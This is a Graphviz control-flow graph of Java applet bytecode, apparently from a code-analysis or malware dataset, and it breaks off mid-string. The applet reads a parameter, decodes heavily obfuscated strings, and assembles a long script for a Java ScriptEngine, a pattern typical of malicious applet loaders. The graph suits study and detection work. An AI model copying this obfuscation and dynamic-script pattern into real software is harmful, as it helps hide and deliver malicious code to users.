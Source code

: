 digraph "" {
    "r0 := @this: a"
    "load.r r0"
    "r0 := @this: a"->"load.r r0";
    "push \"\u07b8\uc835\u4213\uf78a\u0987\uad1d\u0e80\u951b\u90be\u5be3\ue164\ud724\u3002\u0ab6\u79bb\u44ec\u9ac1\u274d\uc02f\u7c4e\ue090\u4af0\ud174\u6e16\u3d9f\u8678\u79aa\u1d63\u0fff\udc7c\ue676\u3334\""
    "load.r r0"->"push \"\u07b8\uc835\u4213\uf78a\u0987\uad1d\u0e80\u951b\u90be\u5be3\ue164\ud724\u3002\u0ab6\u79bb\u44ec\u9ac1\u274d\uc02f\u7c4e\ue090\u4af0\ud174\u6e16\u3d9f\u8678\u79aa\u1d63\u0fff\udc7c\ue676\u3334\"";
    "staticinvoke <c: java.lang.String Ζ(java.lang.String)>"
    "push \"\u07b8\uc835\u4213\uf78a\u0987\uad1d\u0e80\u951b\u90be\u5be3\ue164\ud724\u3002\u0ab6\u79bb\u44ec\u9ac1\u274d\uc02f\u7c4e\ue090\u4af0\ud174\u6e16\u3d9f\u8678\u79aa\u1d63\u0fff\udc7c\ue676\u3334\""->"staticinvoke <c: java.lang.String Ζ(java.lang.String)>";
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"
    "staticinvoke <c: java.lang.String Ζ(java.lang.String)>"->"staticinvoke <c: java.lang.String dc(java.lang.String)>";
    "virtualinvoke <a: java.lang.String getParameter(java.lang.String)>"
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"->"virtualinvoke <a: java.lang.String getParameter(java.lang.String)>";
    "staticinvoke <d: java.lang.String dc(java.lang.String)>"
    "virtualinvoke <a: java.lang.String getParameter(java.lang.String)>"->"staticinvoke <d: java.lang.String dc(java.lang.String)>";
    "store.r r52"
    "staticinvoke <d: java.lang.String dc(java.lang.String)>"->"store.r r52";
    "store.r r52"->"load.r r0";
    "new javax.swing.JList"
    "load.r r0"->"new javax.swing.JList";
    "dup1.r"
    "new javax.swing.JList"->"dup1.r";
    "push 1"
    "dup1.r"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "push 0"
    "dup1.r"->"push 0";
    "new javax.script.ScriptEngineManager"
    "push 0"->"new javax.script.ScriptEngineManager";
    "new javax.script.ScriptEngineManager"->"dup1.r";
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"
    "dup1.r"->"specialinvoke <javax.script.ScriptEngineManager: void <init>()>";
    "push \"\u07b8\uc835\u4213\uf78a\u0987\uad1d\u0e80\u951b\u90be\u5be3\ue164\ud724\u3002\u0ab7\u79bb\u44ed\u9ac1\u274d\uc02f\u7c4e\ue090\u4af0\ud174\u6e16\u3d9f\u8678\u79aa\u1d62\u0ffe\udc7c\ue677\u3335\""
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"->"push \"\u07b8\uc835\u4213\uf78a\u0987\uad1d\u0e80\u951b\u90be\u5be3\ue164\ud724\u3002\u0ab7\u79bb\u44ed\u9ac1\u274d\uc02f\u7c4e\ue090\u4af0\ud174\u6e16\u3d9f\u8678\u79aa\u1d62\u0ffe\udc7c\ue677\u3335\"";
    "push \"\u07b8\uc835\u4213\uf78a\u0987\uad1d\u0e80\u951b\u90be\u5be3\ue164\ud724\u3002\u0ab7\u79bb\u44ed\u9ac1\u274d\uc02f\u7c4e\ue090\u4af0\ud174\u6e16\u3d9f\u8678\u79aa\u1d62\u0ffe\udc7c\ue677\u3335\""->"staticinvoke <c: java.lang.String Ζ(java.lang.String)>";
    "staticinvoke <c: java.lang.String Ζ(java.lang.String)>"->"staticinvoke <c: java.lang.String dc(java.lang.String)>";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"->"virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"->"dup1.r";
    "interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0"
    "dup1.r"->"interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0";
    "store.r r2"
    "interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0"->"store.r r2";
    "load.r r2"
    "store.r r2"->"load.r r2";
    "push \"\u07b8\uc835\u4213\uf78a\u0987\uad1d\u0e80\u951b\u90be\u5be3\ue164\ud724\u3003\u0ab7\u79ba\u44ec\u9ac1\u274d\uc02f\u7c4e\ue090\u4af0\ud174\u6e16\u3d9f\u8678\u79aa\u1d62\u0ffe\udc7c\ue676\u3334\uf7db\u184c\u8b6e\u9caf\u2e99\ud20c\ue2e5\u5c40\ua20a\uc372\u6945\u203c\u3aff\u66dc\uf355\u46a1\uc9f1\ud2be\uf395\uf2c4\uef43\u9076\ufeb2\u7151\u573b\ueee5\u1491\ud763\u070c\u6a76\u444a\u5a19\uf3fc\u27ed\ub2d9\u79b5\u6381\u8a42\u9585\u98bc\u459a\u98b6\u73d8\u2487\u3349\uae56\u228d\u1659\u856c\ue648\ubef4\ub6e5\u07a9\u21fe\udc35\ue50f\u08a0\ub878\u7aa4\u6c0f\u189b\u1f98\ubdb3\uad06\""
    "load.r r2"->"push \"\u07b8\uc835\u4213\uf78a\u0987\uad1d\u0e80\u951b\u90be\u5be3\ue164\ud724\u3003\u0ab7\u79ba\u44ec\u9ac1\u274d\uc02f\u7c4e\ue090\u4af0\ud174\u6e16\u3d9f\u8678\u79aa\u1d62\u0ffe\udc7c\ue676\u3334\uf7db\u184c\u8b6e\u9caf\u2e99\ud20c\ue2e5\u5c40\ua20a\uc372\u6945\u203c\u3aff\u66dc\uf355\u46a1\uc9f1\ud2be\uf395\uf2c4\uef43\u9076\ufeb2\u7151\u573b\ueee5\u1491\ud763\u070c\u6a76\u444a\u5a19\uf3fc\u27ed\ub2d9\u79b5\u6381\u8a42\u9585\u98bc\u459a\u98b6\u73d8\u2487\u3349\uae56\u228d\u1659\u856c\ue648\ubef4\ub6e5\u07a9\u21fe\udc35\ue50f\u08a0\ub878\u7aa4\u6c0f\u189b\u1f98\ubdb3\uad06\"";
    "push \"\u07b8\uc835\u4213\uf78a\u0987\uad1d\u0e80\u951b\u90be\u5be3\ue164\ud724\u3003\u0ab7\u79ba\u44ec\u9ac1\u274d\uc02f\u7c4e\ue090\u4af0\ud174\u6e16\u3d9f\u8678\u79aa\u1d62\u0ffe\udc7c\ue676\u3334\uf7db\u184c\u8b6e\u9caf\u2e99\ud20c\ue2e5\u5c40\ua20a\uc372\u6945\u203c\u3aff\u66dc\uf355\u46a1\uc9f1\ud2be\uf395\uf2c4\uef43\u9076\ufeb2\u7151\u573b\ueee5\u1491\ud763\u070c\u6a76\u444a\u5a19\uf3fc\u27ed\ub2d9\u79b5\u6381\u8a42\u9585\u98bc\u459a\u98b6\u73d8\u2487\u3349\uae56\u228d\u1659\u856c\ue648\ubef4\ub6e5\u07a9\u21fe\udc35\ue50f\u08a0\ub878\u7aa4\u6c0f\u189b\u1f98\ubdb3\uad06\""->"staticinvoke <c: java.lang.String Ζ(java.lang.String)>";
    "staticinvoke <c: java.lang.String Ζ(java.lang.String)>"->"staticinvoke <c: java.lang.String dc(java.lang.String)>";
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"->"load.r r0";
    "interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2"
    "load.r r0"->"interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2";
    "pop"
    "interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2"->"pop";
    "new java.lang.StringBuilder"
    "pop"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"\u07b8\uc835\u4213\uf78a\u0987\uad1d\u0e80\u951b\u90be\u5be3\ue164\ud725\u3003\u0ab6\u79ba\u44ed\u9ac1\u274d\uc02f\u7c4e\ue090\u4af0\ud174\u6e16\u3d9f\u8678\u79aa\u1d63\u0fff\udc7c\ue676\u3334\uf7db\u184c\u8b6e\u9caf\u2e99\ud20c\ue2e5\u5c40\ua20a\uc372\u6945\u203d\u3afe\u66dc\uf355\u46a0\uc9f1\ud2be\uf395\uf2c4\uef43\u9076\ufeb2\u7151\u573b\ueee5\u1491\ud762\u070d\u6a77\u444b\u5a18\uf3fc\u27ed\ub2d9\u79b5\u6381\u8a42\u9585\u98bc\u459a\u98b7\u73d8\u2487\u3348\uae56\u228c\u1658\u856c\ue648\ubef4\ub6e5\u07a9\u21fe\udc35\ue50f\u08a0\ub878\u7aa4\u6c0f\u189b\u1f98\ubdb3\uad06\u74b2\u82f2\u24ee\u8500\ucd9b\uc1c4\u4c7a\u8682\u6d31\u1eae\u4beb\u032c\u237a\u39be\uf232\u765f\u2a5e\ub404\uc9e9\u010d\u351c\ua3ec\ud228\u4dac\uedf1\ufb61\u3514\ufab3\u325f\u28bf\u9e68\ud060\u5a3f\ued0b\u091a\u09b8\uffa2\ued62\u6171\uc547\u9f6f\uc426\u645f\uf539\ubaa8\ufb8e\u5bb4\u4891\u7944\uf782\u9041\u437f\u11fa\u9708\u9161\uf54c\uc062\u347e\uee75\u46d6\ud5d5\u5205\u56b3\ue589\u19d8\u791d\u5183\ueabd\ua96c\udb05\uf429\uabae\u16d4\u4153\u8df2\u0469\ue354\uf025\ud56a\ubbcb\u8569\u0173\u28f5\u2af5\u7aa7\ufb97\uc66b\u17a9\ucd53\ub866\uc268\uc918\u66a2\u2851\ua1d5\ue894\u7b03\uc865\ub4f2\ue454\uf1d7\u935f\u5ca2\uea56\ueced\u5e0a\uc2e4\u633d\u5141\u12f0\ucc02\ud8e6\uc03e\u6e1f\u0792\ue49c\uc11b\udf49\ub3dd\uc67d\ua290\ue25a\u96f1\ue5f9\u7698\uf512\uc386\u7c75\u6f58\ue1fc\u9d2f\u6d7a\u37d9\u5df5\u6105\udcdb\u0b59\u0d4f\ufd39\u1744\uabe0\u6290\u02de\u2b7f\u113f\uddd7\u9f53\u6023\u20fe\ua34a\u2f2d\u3c01\u02b0\u7f4d\u1cae\u25fd\u800b\u3406\ue782\u4c2a\u451a\ucc64\ubffc\ud09f\u262b\u9214\u3a07\uf638\u3102\u40c5\u066f\u0602\u97a7\u6feb\u0bf7\u674d\u8065\uac46\u4703\uf26d\u4539\u52a1\uc3f6\ucc94\u93d6\u6c80\u5efa\u6210\u133f\u653d\u037f\u3e3d\u4147\u7273\u8310\u0e67\ud0eb\u0a65\u4a15\u8bf9\u339c\ud997\u7121\u4d82\u2a8e\u7359\u4253\ua94d\u7303\u267a\u53ee\ufd55\u1963\u62df\u8561\u048b\u1088\u9ece\u3c64\u4d8a\ub57f\u9792\ue253\ud8d2\u5fcc\u8cb0\u6300\u06d9\u5a20\u7e9e\u249c\ue69d\uacdc\u4beb\u958b\ua55b\u29b4\u545a\u9c57\u5f2b\u90bf\u828f\u6f93\u480c\udd92\u98a1\u7021\u2200\u34b0\ua9f6\udc7b\uff41\u1e8c\uf160\u8d7d\u3a46\u190e\ucc11\uaeac\u42a7\ue989\u8098\uab5b\u71f7\uc8be\ubc79\ua4e9\u15fa\ub152\u7158\u011f\u7757\u97f6\u533e\u73d9\u43ad\uc25f\u6bdd\u38a5\u6b70\u7bbf\u2561\uf6a1\u1359\u601c\u9394\uaa85\u0946\uf7b6\u6a64\u7897\ua285\u5435\u3a2f\u9192\ucaac\u9c80\ua937\u75a8\u3770\u77e4\u9e60\ub902\u1dd6\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"\u07b8\uc835\u4213\uf78a\u0987\uad1d\u0e80\u951b\u90be\u5be3\ue164\ud725\u3003\u0ab6\u79ba\u44ed\u9ac1\u274d\uc02f\u7c4e\ue090\u4af0\ud174\u6e16\u3d9f\u8678\u79aa\u1d63\u0fff\udc7c\ue676\u3334\uf7db\u184c\u8b6e\u9caf\u2e99\ud20c\ue2e5\u5c40\ua20a\uc372\u6945\u203d\u3afe\u66dc\uf355\u46a0\uc9f1\ud2be\uf395\uf2c4\uef43\u9076\ufeb2\u7151\u573b\ueee5\u1491\ud762\u070d\u6a77\u444b\u5a18\uf3fc\u27ed\ub2d9\u79b5\u6381\u8a42\u9585\u98bc\u459a\u98b7\u73d8\u2487\u3348\uae56\u228c\u1658\u856c\ue648\ubef4\ub6e5\u07a9\u21fe\udc35\ue50f\u08a0\ub878\u7aa4\u6c0f\u189b\u1f98\ubdb3\uad06\u74b2\u82f2\u24ee\u8500\ucd9b\uc1c4\u4c7a\u8682\u6d31\u1eae\u4beb\u032c\u237a\u39be\uf232\u765f\u2a5e\ub404\uc9e9\u010d\u351c\ua3ec\ud228\u4dac\uedf1\ufb61\u3514\ufab3\u325f\u28bf\u9e68\ud060\u5a3f\ued0b\u091a\u09b8\uffa2\ued62\u6171\uc547\u9f6f\uc426\u645f\uf539\ubaa8\ufb8e\u5bb4\u4891\u7944\uf782\u9041\u437f\u11fa\u9708\u9161\uf54c\uc062\u347e\uee75\u46d6\ud5d5\u5205\u56b3\ue589\u19d8\u791d\u5183\ueabd\ua96c\udb05\uf429\uabae\u16d4\u4153\u8df2\u0469\ue354\uf025\ud56a\ubbcb\u8569\u0173\u28f5\u2af5\u7aa7\ufb97\uc66b\u17a9\ucd53\ub866\uc268\uc918\u66a2\u2851\ua1d5\ue894\u7b03\uc865\ub4f2\ue454\uf1d7\u935f\u5ca2\uea56\ueced\u5e0a\uc2e4\u633d\u5141\u12f0\ucc02\ud8e6\uc03e\u6e1f\u0792\ue49c\uc11b\udf49\ub3dd\uc67d\ua290\ue25a\u96f1\ue5f9\u7698\uf512\uc386\u7c75\u6f58\ue1fc\u9d2f\u6d7a\u37d9\u5df5\u6105\udcdb\u0b59\u0d4f\ufd39\u1744\uabe0\u6290\u02de\u2b7f\u113f\uddd7\u9f53\u6023\u20fe\ua34a\u2f2d\u3c01\u02b0\u7f4d\u1cae\u25fd\u800b\u3406\ue782\u4c2a\u451a\ucc64\ubffc\ud09f\u262b\u9214\u3a07\uf638\u3102\u40c5\u066f\u0602\u97a7\u6feb\u0bf7\u674d\u8065\uac46\u4703\uf26d\u4539\u52a1\uc3f6\ucc94\u93d6\u6c80\u5efa\u6210\u133f\u653d\u037f\u3e3d\u4147\u7273\u8310\u0e67\ud0eb\u0a65\u4a15\u8bf9\u339c\ud997\u7121\u4d82\u2a8e\u7359\u4253\ua94d\u7303\u267a\u53ee\ufd55\u1963\u62df\u8561\u048b\u1088\u9ece\u3c64\u4d8a\ub57f\u9792\ue253\ud8d2\u5fcc\u8cb0\u6300\u06d9\u5a20\u7e9e\u249c\ue69d\uacdc\u4beb\u958b\ua55b\u29b4\u545a\u9c57\u5f2b\u90bf\u828f\u6f93\u480c\udd92\u98a1\u7021\u2200\u34b0\ua9f6\udc7b\uff41\u1e8c\uf160\u8d7d\u3a46\u190e\ucc11\uaeac\u42a7\ue989\u8098\uab5b\u71f7\uc8be\ubc79\ua4e9\u15fa\ub152\u7158\u011f\u7757\u97f6\u533e\u73d9\u43ad\uc25f\u6bdd\u38a5\u6b70\u7bbf\u2561\uf6a1\u1359\u601c\u9394\uaa85\u0946\uf7b6\u6a64\u7897\ua285\u5435\u3a2f\u9192\ucaac\u9c80\ua937\u75a8\u3770\u77e4\u9e60\ub902\u1dd6\"";
    "push \"\u07b8\uc835\u4213\uf78a\u0987\uad1d\u0e80\u951b\u90be\u5be3\ue164\ud725\u3003\u0ab6\u79ba\u44ed\u9ac1\u274d\uc02f\u7c4e\ue090\u4af0\ud174\u6e16\u3d9f\u8678\u79aa\u1d63\u0fff\udc7c\ue676\u3334\uf7db\u184c\u8b6e\u9caf\u2e99\ud20c\ue2e5\u5c40\ua20a\uc372\u6945\u203d\u3afe\u66dc\uf355\u46a0\uc9f1\ud2be\uf395\uf2c4\uef43\u9076\ufeb2\u7151\u573b\ueee5\u1491\ud762\u070d\u6a77\u444b\u5a18\uf3fc\u27ed\ub2d9\u79b5\u6381\u8a42\u9585\u98bc\u459a\u98b7\u73d8\u2487\u3348\uae56\u228c\u1658\u856c\ue648\ubef4\ub6e5\u07a9\u21fe\udc35\ue50f\u08a0\ub878\u7aa4\u6c0f\u189b\u1f98\ubdb3\uad06\u74b2\u82f2\u24ee\u8500\ucd9b\uc1c4\u4c7a\u8682\u6d31\u1eae\u4beb\u032c\u237a\u39be\uf232\u765f\u2a5e\ub404\uc9e9\u010d\u351c\ua3ec\ud228\u4dac\uedf1\ufb61\u3514\ufab3\u325f\u28bf\u9e68\ud060\u5a3f\ued0b\u091a\u09b8\uffa2\ued62\u6171\uc547\u9f6f\uc426\u645f\uf539\ubaa8\ufb8e\u5bb4\u4891\u7944\uf782\u9041\u437f\u11fa\u9708\u9161\uf54c\uc062\u347e\uee75\u46d6\ud5d5\u5205\u56b3\ue589\u19d8\u791d\u5183\ueabd\ua96c\udb05\uf429\uabae\u16d4\u4153\u8df2\u0469\ue354\uf025\ud56a\ubbcb\u8569\u0173\u28f5\u2af5\u7aa7\ufb97\uc66b\u17a9\ucd53\ub866\uc268\uc918\u66a2\u2851\ua1d5\ue894\u7b03\uc865\ub4f2\ue454\uf1d7\u935f\u5ca2\uea56\ueced\u5e0a\uc2e4\u633d\u5141\u12f0\ucc02\ud8e6\uc03e\u6e1f\u0792\ue49c\uc11b\udf49\ub3dd\uc67d\ua290\ue25a\u96f1\ue5f9\u7698\uf512\uc386\u7c75\u6f58\ue1fc\u9d2f\u6d7a\u37d9\u5df5\u6105\udcdb\u0b59\u0d4f\ufd39\u1744\uabe0\u6290\u02de\u2b7f\u113f\uddd7\u9f53\u6023\u20fe\ua34a\u2f2d\u3c01\u02b0\u7f4d\u1cae\u25fd\u800b\u3406\ue782\u4c2a\u451a\ucc64\ubffc\ud09f\u262b\u9214\u3a07\uf638\u3102\u40c5\u066f\u0602\u97a7\u6feb\u0bf7\u674d\u8065\uac46\u4703\uf26d\u4539\u52a1\uc3f6\ucc94\u93d6\u6c80\u5efa\u6210\u133f\u653d\u037f\u3e3d\u4147\u7273\u8310\u0e67\ud0eb\u0a65\u4a15\u8bf9\u339c\ud997\u7121\u4d82\u2a8e\u7359\u4253\ua94d\u7303\u267a\u53ee\ufd55\u1963\u62df\u8561\u048b\u1088\u9ece\u3c64\u4d8a\ub57f\u9792\ue253\ud8d2\u5fcc\u8cb0\u6300\u06d9\u5a20\u7e9e\u249c\ue69d\uacdc\u4beb\u958b\ua55b\u29b4\u545a\u9c57\u5f2b\u90bf\u828f\u6f93\u480c\udd92\u98a1\u7021\u2200\u34b0\ua9f6\udc7b\uff41\u1e8c\uf160\u8d7d\u3a46\u190e\ucc11\uaeac\u42a7\ue989\u8098\uab5b\u71f7\uc8be\ubc79\ua4e9\u15fa\ub152\u7158\u011f\u7757\u97f6\u533e\u73d9\u43ad\uc25f\u6bdd\u38a5\u6b70\u7bbf\u2561\uf6a1\u1359\u601c\u9394\uaa85\u0946\uf7b6\u6a64\u7897\ua285\u5435\u3a2f\u9192\ucaac\u9c80\ua937\u75a8\u3770\u77e4\u9e60\ub902\u1dd6\""->"staticinvoke <c: java.lang.String Ζ(java.lang.String)>";
    "staticinvoke <c: java.lang.String Ζ(java.lang.String)>"->"staticinvoke <c: java.lang.String dc(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\u07fe\uc864\u4251\uf79a\u09cf\uad10\u0e97\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\u07fe\uc864\u4251\uf79a\u09cf\uad10\u0e97\"";
    "push \"\u07fe\uc864\u4251\uf79a\u09cf\uad10\u0e97\""->"staticinvoke <c: java.lang.String Ζ(java.lang.String)>";
    "staticinvoke <c: java.lang.String Ζ(java.lang.String)>"->"staticinvoke <c: java.lang.String dc(java.lang.String)>";
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r52"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r52";
    "load.r r52"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\u07af\uc83e\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\u07af\uc83e\"";
    "push \"\u07af\uc83e\""->"staticinvoke <c: java.lang.String Ζ(java.lang.String)>";
    "staticinvoke <c: java.lang.String Ζ(java.lang.String)>"->"staticinvoke <c: java.lang.String dc(java.lang.String)>";
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\u07b8\uc835\u4213\uf78a\u0987\uad1d\u0e80\u951b\u90be\u5be3\ue164\ud724\u3002\u0ab7\u79bb\u44ed\u9ac1\u274d\uc02f\u7c4e\ue090\u4af0\ud174\u6e16\u3d9f\u8678\u79aa\u1d63\u0ffe\udc7c\ue676\u3335\uf7db\u184c\u8b6e\u9caf\u2e99\ud20c\ue2e5\u5c40\ua20a\uc372\u6945\u203c\u3aff\u66dd\uf354\u46a1\uc9f1\ud2be\uf395\uf2c4\uef43\u9076\ufeb2\u7151\u573b\ueee5\u1491\ud763\u070d\u6a77\u444a\u5a18\uf3fc\u27ed\ub2d9\u79b5\u6381\u8a42\u9585\u98bc\u459a\u98b7\u73d8\u2487\u3348\uae56\u228c\u1658\u856c\ue648\ubef4\ub6e5\u07a9\u21fe\udc35\ue50f\u08a0\ub878\u7aa4\u6c0e\u189a\u1f98\ubdb3\uad06\u74b2\u82f2\u24ee\u8500\ucd9b\uc1c4\u4c7a\u8682\u6d31\u1eae\u4beb\u032c\u237b\u39bf\uf233\u765f\u2a5e\ub404\uc9e9\u010d\u351c\ua3ec\ud228\u4dac\uedf1\ufb61\u3515\ufab2\u325e\u28be\u9e68\ud061\u5a3f\ued0b\u091a\u09b8\uffa2\ued62\u6171\uc547\u9f6f\uc426\u645f\uf538\ubaa8\ufb8e\u5bb5\u4890\u7944\uf782\u9041\u437f\u11fa\u9708\u9161\uf54c\uc062\u347f\uee75\u46d7\ud5d4\u5204\u56b3\ue589\u19d8\u791d\u5183\ueabd\ua96c\udb05\uf429\uabae\u16d4\u4153\u8df3\u0468\ue355\uf025\ud56b\ubbcb\u8569\u0173\u28f5\u2af5\u7aa7\ufb97\uc66b\u17a9\ucd53\ub866\uc268\uc919\u66a2\u2850\ua1d4\ue895\u7b03\uc865\ub4f2\ue454\uf1d7\u935f\u5ca2\uea56\ueced\u5e0a\uc2e4\u633c\u5141\u12f1\ucc02\ud8e6\uc03e\u6e1f\u0792\ue49c\uc11b\udf49\ub3dd\uc67d\ua290\ue25b\u96f1\ue5f9\u7699\uf512\uc386\u7c74\u6f58\ue1fc\u9d2f\u6d7a\u37d9\u5df5\u6105\udcdb\u0b59\u0d4f\ufd39\u1744\uabe0\u6290\u02df\u2b7e\u113f\uddd7\u9f53\u6023\u20fe\ua34a\u2f2d\u3c01\u02b0\u7f4d\u1cae\u25fc\u800a\u3406\ue782\u4c2a\u451a\ucc64\ubffc\ud09f\u262b\u9214\u3a07\uf638\u3102\u40c4\u066f\u0602\u97a7\u6feb\u0bf7\u674d\u8065\uac46\u4703\uf26d\u4539\u52a1\uc3f6\ucc94\u93d6\u6c80\u5efa\u6211\u133f\u653d\u037f\u3e3d\u4147\u7273\u8310\u0e67\ud0eb\u0a65\u4a15\u8bf9\u339c\ud997\u7121\u4d83\u2a8e\u7359\u4253\ua94c\u7303\u267a\u53ee\ufd55\u1963\u62df\u8561\u048b\u1088\u9ece\u3c64\u4d8b\ub57e\u9793\ue253\ud8d3\u5fcc\u8cb0\u6300\u06d9\u5a20\u7e9e\u249c\ue69d\uacdc\u4beb\u958a\ua55a\u29b5\u545b\u9c57\u5f2b\u90bf\u828f\u6f93\u480c\udd92\u98a1\u7021\u2200\u34b0\ua9f6\udc7b\uff41\u1e8d\uf160\u8d7c\u3a47\u190e\ucc11\uaeac\u42a7\ue989\u8098\uab5b\u71f7\uc8be\ubc78\ua4e9\u15fa\ub153\u7158\u011e\u7756\u97f6\u533e\u73d9\u43ad\uc25f\u6bdd\u38a5\u6b70\u7bbf\u2560\uf6a1\u1358\u601d\u9395\uaa85\u0946\uf7b6\u6a64\u7897\ua285\u5435\u3a2f\u9192\ucaac\u9c80\ua937\u75a8\u3770\u77e5\u9e60\ub902\u1dd7\ufc9e\u9e69\u1b00\ucad4\ucf3a\u869f\u1d42\ue00c\ucf8a\u00e7\u6326\ub9d0\uf4fe\ua2bf\u231c\uea6b\u3d0a\u2f36\ub011\ua175\ua016\u5a85\ue63e\ud4a3\ub018\u4e31\uaf8a\u2ada\u560e\uf784\udcd2\ubbbd\uad4c\u1fd3\u9bd9\u43d9\u7587\u1b70\u2695\u6f08\ue0d0\ua8af\udb4b\u020c\ub996\u4e53\uc5c0\ucfd4\ucad3\u9bed\u6f16\u74a7\ud8a9\u9f6a\u763f\u5919\udf52\u4d4c\u04d7\u2bbf\u5b79\u16dc\uf1ad\u6082\ubff8\uaa86\u422f\ue928\ue2cf\u2c27\ub52a\u6ec3\u4d36\u985c\u6929\u2641\u19a8\u1851\u9a24\uc75b\u7823\u7973\u9de6\ucab2\uffde\uf840\u0f19\udfc2\u475c\u33a7\ue530\u7570\u81f3\uc700\ufadb\u92f7\ua01e\uafd1\ua0d5\u5fb7\u4eb4\u0f5a\ubf0c\u6049\ubbc9\u87c3\ub2af\uea22\u3d99\u4890\ua47a\ud7ce\u51d4\ue01e\u4314\u018d\ud372\u5f45\u36ee\ue087\uc542\u0411\u5996\ub709\u1135\u737b\uca79\ud246\u8310\u0de5\u8864\ua72c\u9e79\u4b5b\u680c\u3ca8\u6690\u8d74\u3c9c\u1ddc\u13a5\uea48\u6a9a\u5ded\u650b\u8214\u7921\u0522\uec7a\u9072\ua95f\uc975\u30d5\u5ddf\ub4e6\u83f8\ud62f\u5a2f\u7089\u5a9a\u1606\ud63c\u1a1d\u93a8\uf1fc\u1b5a\u1c8f\u2d2a\u5456\u2151\u69f1\u0e2f\u04e4\u1dbf\uf329\u3a89\ue4c0\u6cd1\u83e1\u1391\u4a5c\ud785\u96fa\ufe9b\u5cbc\uea61\u624d\u4ec1\u1d3d\u1de7\u7fe7\ubac8\u1376\uce9a\u341b\u589f\u1785\u941b\u35fc\u4124\u80eb\ubc4b\u0cad\ud51f\ufe3b\ucb1e\u19b2\u72c3\u905d\ua785\ufa14\u9619\ueddc\u630b\ufd34\u6f5e\u5a93\u059b\ua333\u12cf\uc71d\uc044\u745d\u7a39\u37f8\u2df4\uf85b\u107c\u67df\ub5d6\u2795\u794f\u70be\ub88b\u3163\uebeb\u9cad\ue9b0\u8999\u590c\u799f\u73dd\ub9a9\ue5c6\u76fa\uf98d\u76fb\u6888\u8753\u2341\u504a\ue085\u7725\u6432\u25f2\ua253\uc271\ucedf\u744c\ua6ef\u0f65\u7bb0\u0710\u049e\u11a8\ue84b\u6290\u7e1b\u0390\u1694\u57e2\u119e\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\u07b8\uc835\u4213\uf78a\u0987\uad1d\u0e80\u951b\u90be\u5be3\ue164\ud724\u3002\u0ab7\u79bb\u44ed\u9ac1\u274d\uc02f\u7c4e\ue090\u4af0\ud174\u6e16\u3d9f\u8678\u79aa\u1d63\u0ffe\udc7c\ue676\u3335\uf7db\u184c\u8b6e\u9caf\u2e99\ud20c\ue2e5\u5c40\ua20a\uc372\u6945\u203c\u3aff\u66dd\uf354\u46a1\uc9f1\ud2be\uf395\uf2c4\uef43\u9076\ufeb2\u7151\u573b\ueee5\u1491\ud763\u070d\u6a77\u444a\u5a18\uf3fc\u27ed\ub2d9\u79b5\u6381\u8a42\u9585\u98bc\u459a\u98b7\u73d8\u2487\u3348\uae56\u228c\u1658\u856c\ue648\ubef4\ub6e5\u07a9\u21fe\udc35\ue50f\u08a0\ub878\u7aa4\u6c0e\u189a\u1f98\ubdb3\uad06\u74b2\u82f2\u24ee\u8500\ucd9b\uc1c4\u4c7a\u8682\u6d31\u1eae\u4beb\u032c\u237b\u39bf\uf233\u765f\u2a5e\ub404\uc9e9\u010d\u351c\ua3ec\ud228\u4dac\uedf1\ufb61\u3515\ufab2\u325e\u28be\u9e68\ud061\u5a3f\ued0b\u091a\u09b8\uffa2\ued62\u6171\uc547\u9f6f\uc426\u645f\uf538\ubaa8\ufb8e\u5bb5\u4890\u7944\uf782\u9041\u437f\u11fa\u9708\u9161\uf54c\uc062\u347f\uee75\u46d7\ud5d4\u5204\u56b3\ue589\u19d8\u791d\u5183\ueabd\ua96c\udb05\uf429\uabae\u16d4\u4153\u8df3\u0468\ue355\uf025\ud56b\ubbcb\u8569\u0173\u28f5\u2af5\u7aa7\ufb97\uc66b\u17a9\ucd53\